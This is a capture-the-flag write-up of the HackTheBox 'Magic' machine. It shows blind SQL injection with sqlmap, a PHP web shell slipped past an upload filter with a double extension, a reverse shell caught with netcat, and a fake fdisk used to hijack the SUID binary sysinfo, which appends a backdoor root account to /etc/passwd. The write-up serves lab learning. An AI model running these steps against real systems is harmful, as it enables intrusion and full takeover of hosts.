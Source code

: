 ```yaml
---
title: "HTB: Magic Write-up"
date: 2021-05-12 00:00:00 -0000
categories:
  - HTB
tags:
  - HTB
  - linux
  - web
---
```


I decided to go back to Linux for my next challenge box from TJNull's [list of OSCP-like HackTheBox machines][htb-list]. This is also the first box from the list that HTB ranked "Medium" so it should bring a nice challenge.

## Phase 1: Enumeration

Step 1: Kick off [AutoRecon][autorecon].

```bash
autorecon -o magic --single-target 10.10.10.185 
```

From the quick `nmap` scan I can see that we have SSH and HTTP open.

```txt
[*] Found ssh on tcp/22 on target 10.10.10.185
[*] Found http on tcp/80 on target 10.10.10.185
```

I want to start testing on the web-server, but whenever I test a boot2root box I always do a quick check to make sure that the SSH service isn't using any [bad keys][bad-keys].

```bash
cd ~/tools/ssh-badkeys
grep -R "AAAAB3NzaC1yc2EAAAADAQABAAABAQClcZO7AyXva0myXqRYz5xgxJ8ljSW1c6" .
```

No bad keys here, so its time to look at the web server. `autorecon` will kick off some directory enumeration for us, but I always like to use a few different wordlists for better coverage. I'm going to kick off a `ffuf` scan to run while I review the `autorecon` output.

```bash
ffuf -u http://10.10.10.185/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -e .php,.html,.txt -of csv -o raft-large.csv
```

This run ended up identifying the same endpoints that the `autorecon` GoBuster run identified. The interesting ones were:

```
/login.php            (Status: 200) [Size: 4221]
/upload.php           (Status: 302) [Size: 2957] [--> login.php]
```

File upload functionality is usually ripe for exploitation because it is such a tricky thing to get right. Judging by the redirect, it looks like I have to be logged in to access it though, so lets take a look at the /login.php endpoint.

If I submit a normal request with an invalid login, I get an alert pop-up letting us know we submitted invalid credentials.

![](/assets/images/HTB/magic/login-reg.png)

However, if I submit an apostrophe in that the password field then I can see that the alert pop-up is gone.

![](/assets/images/HTB/magic/login-sqli.png)

This is clearly SQL injection, but I wasn't able to get any data back in-band from the host. I tried for about 30 minutes to exploit this SQLi manually, but after a bit of testing I confirmed my suspicions that this was a blind SQLi.

## Phase 2: Exploitation

Now that I know this is vulnerable to a blind SQL injection, I am going to use `sqlmap` to help me automate the table dumping process (because I can't be bothered to exploit blind SQLi manually). I'm using 8 threads to speed up the process.

```bash
sqlmap -r login.txt --dbms=mysql --threads=8 --batch -D Magic -T login --dump
```

```txt
Database: Magic
Table: login
[1 entry]
+----+----------+----------------+
| id | username | password       |
+----+----------+----------------+
| 1  | admin    | Th3s3usW4sK1ng |
+----+----------+----------------+
```

Looks like I have some creds to try, and if I submit these through the web portal we can get access to the file upload functionality!

![](/assets/images/HTB/magic/auth.png)

This file upload was tricky to bypass, and took me some time to exploit. The usual tricks of using a `%00` in the filename, changing the MIME type, and using double extensions (.png.php) didn't work. I learned a useful methodology for testing file uploads from this box. First, proxy a file upload request and send it to repeater. Send it again in Repeater to make sure you can establish a baseline, then start testing some of the common checks against file uploads. For instance:

- Double extensions (with and without Null Byte)
- Changing MIME type or Magic bytes
- Embedding server-side code within an image
- Content-Type field

For this box the solution was to embed server-side code (in this case PHP) into an image and use a double extension (such as .php.jpg) to trick the application into rendering the page as PHP. The reason this worked is because the application was looking for image-specific magic byte strings at the beginning of uploaded files for it to pass its allowlisting.

![](/assets/images/HTB/magic/file-upload.png)

If I go back to the main page of the application, I can see a request for the <http://10.10.10.185/images/uploads/exploit.php.jpg> endpoint show up in the proxy history. Browsing to this page and supplying the `cmd` parameter results in command execution showing up in the application response.

![](/assets/images/HTB/magic/webshell.png)

From here I used `which` to determine what tools I had accessible in `www-data`'s PATH, which fortunately included `bash`. A simple `bash` reverse shell got me a remote access on the host.

```bash
$ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.185] 35354
bash: cannot set terminal process group (1139): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/Magic/images/uploads$
```

## Phase 3: Privilege Escalation

Now that I have a shell on the box, the next step is to escalate privileges. A quick `cat /etc/passwd` shows that there is one non-standard user on this host

```
theseus:x:1000:1000:Theseus,,,:/home/theseus:/bin/bash
```

Seems like this theseus is also a user on this machine... what are the odds he uses the same password from the web application.

```bash
www-data@ubuntu:/tmp$ su theseus
Password:
theseus@ubuntu:/tmp$
```

Sweet! Now that I have access to the user account, it is time to move onto getting root privileges. When I ran [linpeas][linpeas] something new stood out to me, there was a new SUID binary that I hadn't encountered before.

```
-rwsr-x--- 1 root    users            22K Oct 21  2019 /bin/sysinfo (Unknown SUID binary)
----------------------------------------------------------------------------------------
  --- Trying to execute /bin/sysinfo with strace in order to look for hijackable libraries...
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/usr/lib/x86_64-linux-gnu/libstdc++.so.6", O_RDONLY|O_CLOEXEC) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libgcc_s.so.1", O_RDONLY|O_CLOEXEC) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libm.so.6", O_RDONLY|O_CLOEXEC) = 3
read(3, fdisk: cannot open /dev/loop0: Permission denied
```

AutoRecon had run `strace` on the binary to see what files it was opening, but that only revealed that it was trying to load some libraries from `/etc` that didn't exist. I ran `ltrace` on the binary to get some more information about what files and commands it may be using, specifically looking for the `popen()` function to look for command calls it may make.

```bash
theseus@ubuntu:/tmp$ ltrace sysinfo
...
popen("fdisk -l", "r")
```

This call is interesting because the program doesn't specify the full path of the `fdisk` binary that it calls. This means that I can place an arbitrary `fdisk` executable file somewhere in the PATH before the intended `fdisk` executable, and have my file execute as root instead. I would never do this on a client machine, but my go-to "backdoor" for boot2root files is adding a root user with the password "secret".

```bash
theseus@ubuntu:/tmp$ echo -e '#!/bin/bash
echo "root2:YcH.cwcRpCZW2:0:0:root:/root:/bin/bash" >> /etc/passwd' > fdisk
theseus@ubuntu:/tmp$ chmod +x fdisk
theseus@ubuntu:/tmp$ export PATH=/tmp:$PATH
```

We have placed our backdoor `fdisk` in `/tmp` and moved `/tmp` up to the front of our path, so all that is left to do is to execute `sysinfo` and see if it worked.

```bash
theseus@ubuntu:/tmp$ sysinfo
...
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
...
root2:YcH.cwcRpCZW2:0:0:root:/root:/bin/bash
```

Looks like it worked! Time to `su` into root and collect the flag.

```bash
theseus@ubuntu:/tmp$ su root2
Password:
root@ubuntu:/tmp# whoami
root
```

Overall this was a really interesting box. I learned a new way to bypass restrictive file upload filters, and a new strategy for exploiting unique SUID binaries. Thanks for reading!

[htb-list]: https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=1839402159
[autorecon]: https://github.com/Tib3rius/AutoRecon
[bad-keys]: https://github.com/rapid7/ssh-badkeys
[linpeas]: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
